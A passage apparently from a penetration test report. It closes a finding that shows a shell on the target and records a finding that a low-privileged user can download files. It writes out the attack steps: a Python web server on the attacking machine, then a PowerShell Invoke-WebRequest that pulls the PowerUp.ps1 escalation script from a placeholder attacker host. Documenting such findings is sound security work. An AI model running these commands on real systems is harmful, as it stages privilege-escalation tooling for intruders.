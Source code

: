 ![Shell on the target](image-3.png)

**Recommendation**

Patch management

## 6 - Low privileged user can perform sensitive tasks on the server
**Severity**

High

**Description**

Low user can perform sensitive tasks on the server. These tasks allows the download of file and other enumeration that may reveal sensitive information or misconfigurations. 

For our test, the user was able to download a .ps1 script that performs an automatize enumeration of the server. The download was performed with the following steps:

1. Starting a web server on the attacking machine:

```
sudo python3 -m http.server 80
```

2. Execute the powershell cmdlet *Invoke-WebRequest* on the target:

```
powershell Invoke-WebRequest -Uri http://ATTACKING-Machine:80/PowerUp.ps1.exe -Outfile powerup.ps1
```
